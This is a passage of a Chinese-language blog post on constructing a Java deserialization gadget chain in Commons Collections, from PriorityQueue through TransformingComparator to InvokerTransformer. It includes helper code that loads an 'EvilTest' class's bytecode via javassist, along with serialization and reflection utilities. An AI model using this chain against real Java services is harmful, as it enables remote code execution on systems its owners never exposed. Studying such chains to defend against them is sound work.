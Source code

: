 它是一个调用了`Transformer`的比较器类，看一下它的`compare()`方法：

```java
    public int compare(final I obj1, final I obj2) {
        final O value1 = this.transformer.transform(obj1);
        final O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

它对传入的两个要比较的元素分别调用了`this.transformer.transform`。至于这个`transform`是啥，相信都很熟了，`InvokerTransformer`，`ChainedTransformer`啥的。



# 分析和构造

其实也没啥好分析的了，就是一条从`PriorityQueue`到`Transformer`的链子。稍微构造一下即可：

```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

